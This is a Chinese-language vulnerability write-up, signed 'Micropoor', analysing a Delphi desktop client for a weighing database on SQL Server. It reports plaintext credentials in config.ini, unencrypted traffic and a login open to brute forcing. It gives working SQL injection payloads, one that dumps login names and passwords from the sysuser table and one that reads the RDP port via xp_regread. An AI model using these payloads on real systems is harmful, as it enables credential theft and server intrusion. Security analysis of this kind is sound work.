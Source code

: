 
程序的主要 function，与 procedure

**注：**Delphi把操作数据的方法分成了两种，一种是function，另一种是procedure，大致理解为“函数”和“过程”。
Procedure类似C语言中的无返回值函数，即VOID。而Function就是c语言中的有返回值函数，即没有Void。  
![](media/21e65a213b1774c59d03619cb69683b4.jpg)

程序分为2种连接数据库模式：  
![](media/080d91e0679721483224a0d29b818c61.jpg)

无论是本地模式，还是联网模式，都是读取，当前路径的config.ini配置文件：
**（导致敏感信息暴漏，可直连服务器）**

![](media/00335e7c032c10d239df4a1c64a1543e.jpg)

继续跟数据库连接：配合SQL Server数据库，直接带入，可以判断出为明文存储。  
![](media/f0281f9b417bfcff8962a51f84f410b3.jpg)

config.ini配置如下：  
![](media/7a7ab42ea759160c062a56d2c4f1cc88.jpg)

基于TCP通信，SQL Server通信构架大致如下：
**（可导致通信过程中抓取明文执行）**

![](media/109415886494f35eb1abb0dc65e1ea4a.jpg)

代入执行：
**（导致可拼接sql语句，查询任意语句或者执行命令）**

![](media/f2d2fa55ca7000f6ac4e2a7f35096223.jpg)  
![](media/9c7cde20e5b9f00367d3e9e6742795bd.jpg)

部分语句其中如下：
```sql
select distinct memberid,receivecompany 
from weigh where receivecompany is not null 
and receivecompany like ''%'+xxxxxx+'%''
```

软件呈现如下：  
![](media/fb920104b40786b665ab4f54efcc7f45.jpg)

对应收货单位编号，以及收货单位名称。分别为：`memberid`, `receivecompany`

闭合语句为：
`2' ; select loginid as memberid , password as receivecompany from sysuser --`  
![](media/3fe1f0dff1f17524e03aa152e59172b2.jpg)

抓取返回如图：
得到admin 账号以及密码。  
![](media/0832ba025e9189a7099cd2e4dc368152.jpg)

构造读取远程桌面端口号：
得到远程服务器端口号
```sql
2' ; EXEC master..xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp',
'PortNumber' --
```

copy 获取缓冲区内容：
**（导致可从服务器端构造代码）**  
![](media/12eae8dd1c87a5e9f14244f5c7b4eb70.jpg)

copy 用法如下：

> copy（a,b,c);  
> 
> a：就是copy源，就是一个字符串，表示你将要从a里copy一些东西;  
> 
> b：从a中的第b位开始copy（包含第11位）;  
> 
> c：copy从第b位开始后的c个字符，  
> 
> exp： m:=‘the test fuck'
>      s：=copy（m,2,2）； //s值为‘he’

当超出范围，会发生异常错误。实例中，从服务器数据库获取数据后进行copy。

软件登陆部分代码如下：
**（导致可自动化跑 loginid。）**  
![](media/24734f4bbaa74f862cfbcac3b53faf83.jpg)

多次尝试错误处理如下：退出软件，并且重新开始计算。  
![](media/4ec9526c01770e2d5f17c9cc9a76b26b.jpg)



>   Micropoor
